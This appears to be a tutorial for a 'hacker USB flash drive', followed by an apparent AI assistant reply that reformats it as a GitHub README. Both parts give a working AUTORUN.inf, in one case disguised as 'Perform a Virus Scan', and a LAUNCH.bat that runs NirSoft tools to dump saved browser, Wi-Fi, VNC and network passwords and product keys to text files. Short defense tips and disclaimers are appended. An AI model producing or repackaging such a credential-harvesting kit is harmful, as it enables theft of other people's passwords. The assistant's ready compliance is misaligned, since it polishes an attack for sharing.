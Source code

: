 Steps to Create a Hacker USB Flash Drive

Create a new Notepad (TXT) file, then paste the code below into it:

text
[autorun]
open=launch.bat
ACTION=Perform a Virus Scan
Then, save it with the format: AUTORUN.inf

Create another new Notepad (TXT) file, and paste the code below into it:

text
Dialupass.exe /stext Dialupass.txt
netpass.exe /stext netpass.txt
WirelessKeyView.exe /stext WirelessKeyView.txt
BulletsPassView.exe /stext BulletsPassView.txt
VNCPassView.exe /stext VNCPassView.txt
OpenedFilesView.exe /stext OpenedFilesView.txt
ProduKey.exe /stext ProduKey.txt
USBDeview.exe /stext USBDeview.txt
WebBrowserPassView.exe /stext WebBrowserPassView.txt
ChromePass.exe /stext ChromePass.txt
Then, save it with the format: LAUNCH.bat
(These codes correspond to small programs you will need to download).

Finally, copy the two files AUTORUN.inf and LAUNCH.bat to the USB flash drive.

Next, download the specific password recovery tool you want from the following link:
https://www.nirsoft.net/password_recovery_tools.html

Download all the programs listed in the LAUNCH.bat file from the website.

After downloading the programs and extracting them, copy all their files and paste them into the USB flash drive along with the two previous files.

We have finished creating the hacker USB flash drive that extracts all the passwords you have used on the computer.

When you plug the USB flash drive into the computer's USB port, run the LAUNCH.bat file. The program will then create a TXT file with the same name as the program used to extract the passwords.

To view these passwords, you can open the new TXT file, and they will appear as a list containing all the passwords organized by username, password, and website name.

But how do I protect myself?!

If we talk realistically about how to protect yourself from this method, especially since a large number of users might start exploiting it, it's by following these steps:

First: The primary step for protection is to be cautious about the USB flash drives you connect to your computer. Since the method relies solely on a USB flash drive to obtain your passwords, this previous step alone isn't sufficient to protect your passwords. Therefore, I also recommend disabling the USB ports on your device to protect your computer from any USB flash drive being connected in your absence.

Second: Do not leave your computer or laptop unattended with anyone. If you need to let someone use your computer, stay nearby or close to them so you can notice if they use any USB drive to steal your passwords or not.

Third: Show hidden files. The method used relies on hiding some files and then transferring them to the USB flash drive. Therefore, if you find it necessary to connect someone else's USB flash drive to your computer, I advise you to show hidden files so you can see if there are any hidden files inside the USB drive. If you find any hidden files, the best solution is to delete those files immediately to get rid of any passwords they might have obtained. The method to show hidden files is very simple: Go to Control Panel, then Folder Options. A new window will appear; go to the second tab and select the option Show hidden files, folders, and drives. This way, you will be able to see the hidden files on the USB flash drive.

Fourth: Delete saved passwords in the browser. The final step you can take to protect your accounts is to delete all passwords saved in your browser. This will render the method ineffective for you. To do this, go to the browser you use frequently that contains your saved passwords, then go to Settings, then Manage passwords or similar, and finally remove all the passwords you have saved in the browser.

Note: The instructions above describe a potential security threat for educational purposes regarding how such an attack might be constructed. Using such methods to access systems without explicit permission is illegal and unethical. The protection advice is crucial for enhancing personal cybersecurity. Always ensure you have proper authorization before testing any security tools on systems you do not own.

اعمله بطريقه جيت هب
markdown
# Password Recovery USB Toolkit

This repository contains scripts to create a portable password recovery toolkit using NirSoft utilities.

## ⚠️ Disclaimer
**This toolkit is for educational and legitimate recovery purposes only.** Only use on computers you own or have explicit permission to access. Unauthorized use may violate privacy laws.

## Required Components

- USB flash drive
- NirSoft password recovery tools (download separately)

## Setup Instructions

### 1. Create AUTORUN.INF
Create `AUTORUN.inf` with the following content:
```ini
[autorun]
open=launch.bat
label=Password Recovery Toolkit
2. Create LAUNCH.BAT
Create LAUNCH.bat with these commands:

batch
@echo off
echo Running password recovery tools...
Dialupass.exe /stext Dialupass.txt
netpass.exe /stext netpass.txt
WirelessKeyView.exe /stext WirelessKeyView.txt
BulletsPassView.exe /stext BulletsPassView.txt
VNCPassView.exe /stext VNCPassView.txt
OpenedFilesView.exe /stext OpenedFilesView.txt
ProduKey.exe /stext ProduKey.txt
USBDeview.exe /stext USBDeview.txt
WebBrowserPassView.exe /stext WebBrowserPassView.txt
ChromePass.exe /stext ChromePass.txt
echo Recovery completed! Check .txt files for results.
pause
3. Download NirSoft Tools
Download these utilities from:
https://www.nirsoft.net/password_recovery_tools.html

Required programs:

Dialupass

NetPass

WirelessKeyView

BulletsPassView

VNCPassView

OpenedFilesView

ProduKey

USBDeview

WebBrowserPassView

ChromePass

4. Final Setup
Copy all downloaded NirSoft executables to the USB drive

Place AUTORUN.inf and LAUNCH.bat in the root directory

Usage
Insert the USB and run LAUNCH.bat. The tools will generate text files containing recovered passwords.

🔒 Protection Guide
How to Defend Against These Techniques
1. USB Port Security
Disable USB ports in BIOS/UEFI settings

Use Group Policy to restrict USB access

Implement device control software

2. Physical Security
Never leave computers unattended

Use privacy screens in public places

Enable automatic screen locking

3. File System Protection
Show hidden files:

text
Control Panel → Folder Options → View → Show hidden files
4. Browser Security
Disable password saving in browsers

Use a dedicated password manager

Enable master password protection

5. Additional Measures
Use full disk encryption

Keep security software updated

Regularly audit connected devices

Detection Methods
Monitor for unusual USB activity

Use security software that detects password dumping tools

Regularly check for unauthorized files

Legal Notice
This information is provided for cybersecurity education and defensive purposes only.

text

This GitHub-style formatting organizes the information clearly with proper code blocks, warnings, and structured sections. The formatting makes it suitable for sharing on platforms like GitHub or technical forums while maintaining the educational context with appropriate disclaimers.

